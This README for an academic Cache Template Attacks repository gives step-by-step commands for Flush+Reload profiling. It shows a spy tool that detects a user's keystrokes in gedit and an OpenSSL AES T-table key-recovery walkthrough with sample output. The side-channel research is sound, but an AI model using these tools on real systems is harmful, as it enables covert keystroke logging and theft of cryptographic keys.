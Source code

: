 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks and OpenSSL AES T-Table attack.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/yarom)" (2014).

The "[Cache Template Attacks](https://www.usenix.org/conference/usenixsecurity15/technical-sessions/presentation/gruss)" paper by Gruss, Spreitzer and Mangard was published at USENIX Security 2015.

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration 10
```
This program should print a histogram for cache hits and cache misses. The number specifies the bucket size for the histogram.

## Profiling
In this example we perform some steps by hand to illustrate what happens in the background.
Therefore, we will first find the address range to attack.
```
cat /proc/`pidof gedit`/maps | grep libgedit | grep "r-x"
7fe0674cf000-7fe067511000 r-xp 0001d000 103:04 2768721                   /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example). This is also the reason why we don't have to think about address space layout randomization.

**Note:** On Windows you can use the tool vmmap to find the same information.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step.

During the profiling you need to perform or simulate a huge number of key presses. The profiling tool gives you 2 seconds of time to switch windows, e.g., to an already opened gedit window.

On Linux, run the following lines:
```
cd profiling
make
./spy 155 100 7fe0674cf000-7fe067511000 r-xp 0001d000 103:04 2768721                   /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so
```

Choose a cache line with a nice number of cache hits and pass it to the generic exploitation spy tool:
```
cd exploitation
make
./spy 155 /usr/lib/x86_64-linux-gnu/gedit/libgedit-44.so 0x22980
```
Now this tool prints a message exactly when a user presses a key (in gedit).
This spy tool can also be used on Windows just like that.

**Note:** Cache Template Attacks can be fully automated, but this requires the event to be automated as well.

## OpenSSL AES T-Table attack

### Manual attack - Profiling phase
In order to enable the T-Table based AES implementation, the use of a self-compiled OpenSSL library is  required. Additionally, `libcrypto.so.1.0.0` need to be placed in the folder `profiling_aes_example` and the program must run it as a shared library.  
Then run
```
cd profiling_aes_example
make
./spy
```
 
The small set of frequently accessed addresses (*i.e.*, 64) makes it easy to locate the T-table in the log file.  
To successfully complete the *profiling* phase, the initial encryptions run should be performed using a dummy key (included in `spy.cpp` code), for example:  
```
0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,   
0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F
```

In this phase, the goal is to observe 64 consecutive offsets showing a "*diagonal pattern*" and to understand the range used during the encryption; here's an example of profiling the first key byte with `NUMBER_OF_ENCTRYPTION` = 2100:  
```
0x16e540,2100,1925,1924,1923,1949,1928,1934,1933,1921,1926,1926,1900,1921,1942,1938,1933
0x16e580,1925,2100,1929,1922,1917,1924,1908,1945,1916,1911,1931,1935,1945,1928,1942,1938
0x16e5c0,1924,1917,2100,1937,1915,1942,1906,1931,1941,1939,1936,1934,1945,1958,1935,1909
0x16e600,1940,1912,1925,2100,1928,1929,1920,1911,1926,1920,1927,1926,1933,1928,1938,1926
0x16e640,1928,1916,1943,1932,2098,1918,1947,1943,1919,1915,1928,1906,1910,1939,1923,1932
0x16e680,1930,1930,1910,1924,1946,2100,1938,1950,1902,1931,1915,1943,1909,1921,1922,1934
0x16e6c0,1919,1932,1925,1915,1919,1913,2100,1937,1915,1908,1939,1915,1922,1915,1927,1918
0x16e700,1930,1932,1929,1935,1926,1942,1926,2100,1922,1937,1951,1927,1938,1951,1941,1942
0x16e740,1908,1932,1937,1931,1914,1921,1927,1947,2100,1903,1945,1923,1935,1897,1927,1936
0x16e780,1950,1949,1933,1945,1930,1939,1945,1948,1932,2099,1938,1942,1924,1919,1911,1907
0x16e7c0,1929,1921,1922,1928,1947,1924,1933,1934,1932,1924,2100,1930,1917,1935,1920,1943
0x16e800,1937,1934,1924,1900,1924,1934,1938,1930,1936,1910,1935,2100,1908,1941,1925,1933
0x16e840,1913,1914,1938,1936,1946,1939,1930,1932,1917,1946,1932,1938,2100,1917,1928,1937
0x16e880,1938,1934,1928,1932,1941,1945,1938,1942,1930,1944,1943,1923,1941,2100,1926,1933
0x16e8c0,1928,1908,1949,1930,1928,1926,1936,1931,1940,1919,1918,1926,1921,1917,2098,1930
0x16e900,1934,1923,1929,1932,1935,1938,1946,1927,1901,1950,1935,1927,1936,1934,1935,2100
```

Obviously, it's important to have a pattern with 2100 cycles along the diagonal, or values very close to 2100, such as 2099 or 2098.


### Manual attack - Exploitation phase
Subsequently, you can monitor addresses from the profile to derive information about secret keys.

In the *exploitation* phase, the spy tool must trigger encryptions itself using the realistic key - comment out the dummy key (or replace/add a realistic key) and run the encryptions. After 64 encryptions, the upper 4 bits of each key byte can be trivially determined.  

The following lines show an example of output for the first key byte (in fact we can see the same offsets of the previous example):  
```
0x16e540,1916,1910,1918,1930,1953,2100,1912,1923,1936,1926,1947,1926,1941,1929,1934,1921
0x16e580,1930,1946,1923,1923,2100,1936,1907,1947,1901,1906,1952,1934,1927,1952,1920,1934
0x16e5c0,1926,1929,1945,1930,1926,1934,1951,2099,1950,1943,1928,1956,1915,1913,1944,1956
0x16e600,1939,1904,1934,1932,1939,1917,2100,1941,1923,1915,1918,1930,1934,1955,1911,1920
0x16e640,1921,2100,1933,1926,1929,1937,1922,1924,1925,1932,1939,1928,1929,1933,1931,1928
0x16e680,2100,1930,1951,1936,1905,1929,1932,1917,1917,1932,1913,1928,1898,1943,1937,1919
0x16e6c0,1937,1941,1921,2100,1918,1931,1896,1938,1925,1925,1915,1931,1920,1924,1928,1943
0x16e700,1914,1944,2100,1905,1928,1926,1920,1944,1923,1934,1917,1946,1915,1940,1916,1943
0x16e740,1925,1941,1927,1933,1935,1915,1942,1926,1908,1938,1937,1932,1930,2100,1924,1921
0x16e780,1931,1933,1933,1926,1926,1938,1935,1927,1930,1929,1935,1923,2099,1941,1947,1920
0x16e7c0,1951,1944,1933,1915,1935,1937,1917,1924,1929,1914,1929,1920,1920,1940,1945,2100
0x16e800,1948,1923,1908,1937,1932,1944,1937,1934,1940,1951,1919,1945,1924,1917,2100,1939
0x16e840,1921,1938,1942,1918,1940,1958,1940,1909,1920,2099,1938,1907,1923,1929,1927,1939
0x16e880,1912,1942,1940,1933,1922,1919,1949,1936,2100,1914,1915,1931,1926,1943,1946,1944
0x16e8c0,1919,1901,1937,1907,1940,1932,1950,1923,1948,1931,1904,2098,1916,1930,1922,1918
0x16e900,1930,1937,1951,1920,1931,1945,1935,1936,1904,1922,2100,1940,1918,1961,1931,1932
```

To perform the attack manually, repeat this process for each key byte; after completing all runs you will obtain the upper 4 bits of every key byte. Note that if you proceed manually you will also need to appropriately modify the corresponding sections of `spy.cpp` between runs (for example toggling the dummy/real key, adjusting the target byte index, ecc...). If you prefer to automate the process, see the following section.

### Semi-automatic attack
If you prefer to test `spy.cpp` semi-atomatically, you can configure `libcrypto.so.1.0.0` as described above and then run the tool:
```
cd profiling_aes_example
python3 run_attack.py
```

This tool automates both the profiling and exploitation phases: it modifies and executes the necessary code and generates the corresponding output files. For reasons of execution time and readability, the tests are performed only on the first 4 bytes of the key by default, but you can modify `run_attack.py` to run the attack on all key bytes (note that completing the full process will require significantly more time depending on your hardware).

Of course, we know that OpenSSL does not use a T-Table-based AES implementation anymore. But you can use this tool to profile any (possibly closed-source) binary to find whether it contains a crypto algorithm which leaks key dependent information through the cache. Just trigger the algorithm execution with fixed keys 


That's it, now it's up to you to find out which of your software leaks data and how it could be exploited. I hope it helps you closing these leaks.

### Output interpretation
The interpretation of the output files is straightforward: the *profiling* phase yields the correct 64 offset range we are interested in, and the *exploitation* phase shows the cycle counts in the columns that allow us to infer the 4 Most-Significant Bits of each key byte.  

T-tables work such that an entry corresponds to $T[K_i \oplus P_i]$ (where $K_i$ is a single key byte and $P_i$ is a single plaintext byte). Knowing only the table index and the plaintext byte makes it possible to deduce the desired information about a secret key.  

Using the example above, for the first key byte we know that `0x16e540` corresponds to index $0$ of the used T-table (offset deduced during profiling), while the highest cycle count ($2100$) from the exploitation output appears in column 6. Since the plaintext byte increases by 16 for each column (starting from $0$), the plaintext byte at column $6$ is $16 \cdot 5 = 80_{10} = 0x50$. Because we are only interested in the upper 4 bits, we consider only $0x5$.  

Now, given the **_XOR_** operation in this AES implementation, we can easily deduce that $0x0 \oplus 0x5 = 0x5$, which corresponds to the upper 4 bits of the real key used in this test.  

The same principle can be applied to all identified T-table entries, up to 64.